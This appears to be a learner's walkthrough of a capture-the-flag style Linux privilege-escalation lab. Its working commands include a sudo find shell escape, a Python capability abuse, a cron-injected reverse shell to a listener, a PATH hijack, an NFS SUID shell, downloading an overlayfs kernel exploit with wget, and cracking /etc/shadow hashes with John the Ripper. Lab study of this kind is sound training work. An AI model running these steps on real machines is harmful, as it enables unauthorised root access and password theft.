 # Linux Priviledge Escalation Room

## TASK 3
This task highlighted some commonly used commands for Linux to help guide you into who you are, what connectivity from this device is, and what to look for as possible vulnerability.
- ```uname -a ```
- ``` hostname  ```
- ```cat /proc/version```
- ```cat /etc/issue```
- ```ps -A ``` or ```ps axjf```
- ```sudo -l```
- ```cat /etc/passwd```
- ```ifconfig```
- ```netstat -at```
- ```find /home -name flag1.txt```  or ``` find / -type f -perm 0777 ```
    - ``` find / -perm -u=s -type f 2>/dev/null ``` allows you to find SUID bit files, which allows us to run the file with a higher privilege level than the current user.


## TASK 5
In the room for the Linux Exploitation Task 5, you'll need to use the HackBox to create a new file called `ofs.c` with the contents of the `CVE-2015-1328.c` in it. This is based on the content of the exploit here https://www.exploit-db.com/exploits/37292. Spin up a python3 server by executing: 
    ``` python3 -m http.server 9000```
Then from the target computer, you'll use wget to download the ofs.c file and compile it using the command:
    ```gcc ofs.c -o ofs```
This should result in you opening a shell that results in you being root


## TASK 6
 
For this task the new box needs to be spun up so that there's a box that has the name `LinPrivEscSUDO`. TO start answering questions you'll need to first execute the command to find out which services the current user has the ability to run without password the sudo command. In this case I ran
    ```sudo -l```
From here it lisited the number of services that is the answer to the first question on this task. I was able to go to the site that's referenced in the dialague for this task [GTFOBins](https://gtfobins.github.io/) and search for each of the services listed to see which one would allow us to escalate into a shell that is root privileges. This case I used the command
     ``` sudo find . -exec /bin/sh \;``` 
which started a root session and from there able to cat the flag2.txt file for the answer to the second question. For the third question, using [GTFOBins](https://gtfobins.github.io/) searched for the sudo use of nmap and used the command I found there for the correct answer. Last question took a little bit of searching for how to accomplish the goal, but what I learned was that ```cat /etc/passwd``` allowed me to see that despite frank not having a home directory, frank did have a password hash stored in /etc/shadow. Pretty cool details for how to interpret that file found on this [site](https://takahideiwai.github.io/Cryptography/01-passwordcracking/index.html)


## TASK 7
This task is similar to the one above, but we need to deal with the set user id (SUID) and set group id (SGID) concepts. Using the command:
    ```find / -type f -perm -04000 -ls 2>/dev/null```
we are able to find out which services you can actually run as the owner of those services. The use of [GTFOBins] is still relevant here to list which services have SUID exploits. This section also includes the steps for using the /etc/shadow and /etc/passwd files to list valuable information. Steps are as follows:

- Create outputs of both files by running ```nano passwd.txt ``` and  ```nano shadow.txt``` and copy the contents of the ```base64 "$LFILE" | base64 --decode``` command for each while replacing the LFILE variable with which file you need to read.
- Use the unshadow tool to export to a file with ```unshadow passwd.txt shadow.txt > passwords.txt```
- Execute John the Ripper with a wordlist that will print out password in plain text ```john passwords.txt --wordlists /usr/share/wordlists/rockyou.txt``` if executing from the AttackBox. Then 

The Alternative path was to add the new user hash to the /etc/passwd file with root permissions. This could be done by using the ```openssl passwd -1 -salt ``` command and adding ```:/root:/bin/bash``` permission. This second route only works if you have the ability to sudo into root and adding edit permissions on the /etc/passwd file. 

## TASK 8
This task looks at the capabilities of the binaries on the box. using the command ```getcap -r / 2>/dev/null``` was able to answer the first three questions of this section. The additional binary that was found on the box for me was a service called view. In this case to take advantange of the capabilities I used the command
    ```/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'```
This started a shell that would be started as root and I'd be able to print the contents of the flag file.

## TASK 9
I used the ```cat /etc/crontab``` command to find the list of all the chron jobs across the system. Finding the file that my user owns, I modify that file by adding the command:
    ```bash -i >&/dev/tcp/1{IP}/9000 >&1```
Once you verify that the backup.sh file has +x permissions on it, you should be ready to set up the listener on the AttackBox:
    ```nc -lnvp 9000```
The reverse shell should show up and the flag is fairly straight forward to find from there. To get Matt's password we need some of the previous skills from previous tasks to help us out. Since we're already running as root, we should be able to dump the /etc/passwd and /etc/shadow files so that we can run John the Ripper on the AttackBox to crack the code.

## TASK 10
In this task had the opportunity to use path exploits. First step was creating a C file that setuid(0) and setgid(0). 
    ```c
    #include<unistd.h>
            void main(){
                setuid(0);
                setgid(0);
                system("thm");
            }
    ```
I needed to compile this first by using th ```gcc path_exp.c -o path -w``` command before spinning up a python server ```python3 -m http.server 9000 ``` and using wget to download it to the target. Next finding paths that were writeable by using ```find  -writeable 2>/dev/null``` found an interesting path that I had access to write to. In that path is where I downloaded the compiled path file for execution and made sure it had permissions to be executed. Executing the ./test file to see if my the thm script worked, it prints out the flag contents.

## TASK 11
find the mounts from the attackbox by executing ```showmounts -e {IP}``` and then make a directory on the attackbox to mount the share drives from the target to. ```mount -o rw {IP}:/home/backup /tmp/backuptarget``` In that directory created a file that executed a ```system("/bin/bash");``` in a c file and compiled it with gcc. Doing a ```chmod +s ``` on the compiled file that was made you can note that this file is owned by root. and once executing the ./nfs file, the shell transitions from being my initial user to root.

## CAPSTONE

Found some new capabilities after starting a reverse shell using perl.
/usr/bin/newgidmap = cap_setgid+ep
useage: newgidmap <pid> <uid> <lowergid> <count>
/usr/bin/newuidmap = cap_setuid+ep
useage: newuidmap <pid> <uid> <loweruid> <count>

found the pid for my current shell and lets see what happens 3114 or 2494

